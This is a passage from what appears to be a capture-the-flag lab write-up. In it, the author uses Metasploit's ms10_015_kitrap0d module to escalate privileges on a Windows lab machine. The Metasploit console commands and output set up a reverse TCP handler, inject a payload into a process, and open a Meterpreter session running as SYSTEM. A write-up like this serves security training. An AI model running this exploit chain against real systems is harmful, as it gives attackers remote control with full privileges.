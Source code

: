     
    Exploit target:
    
       Id  Name
       --  ----
       0   Windows 2K SP4 - Windows 7 (x86)
    

Despite the fact that I didn’t set a payload, Meterpreter sets one for me.
That’s nice, until it uses my eth0 IP address instead of my tun0 address. So
when the exploit runs and succeeds, it’s trying to call to an IP it has no
route to.

If I fix that, and run again, I get a shell:

    
    
    msf5 exploit(windows/local/ms10_015_kitrap0d) > set lhost tun0
    lhost => tun0
    msf5 exploit(windows/local/ms10_015_kitrap0d) > set lport 445
    lport => 445
    msf5 exploit(windows/local/ms10_015_kitrap0d) > run
    
    [*] Started reverse TCP handler on 10.10.14.14:445
    [*] Launching notepad to host the exploit...
    [+] Process 3536 launched.
    [*] Reflectively injecting the exploit DLL into 3536...
    [*] Injecting exploit into 3536 ...
    [*] Exploit injected. Injecting payload into 3536...
    [*] Payload injected. Executing exploit...
    [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
    [*] Sending stage (179779 bytes) to 10.10.10.5
    [*] Meterpreter session 2 opened (10.10.14.14:445 -> 10.10.10.5:49159) at 2019-03-05 12:25:15 -0500
    
    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
    

[](/2019/03/05/htb-devel.html)

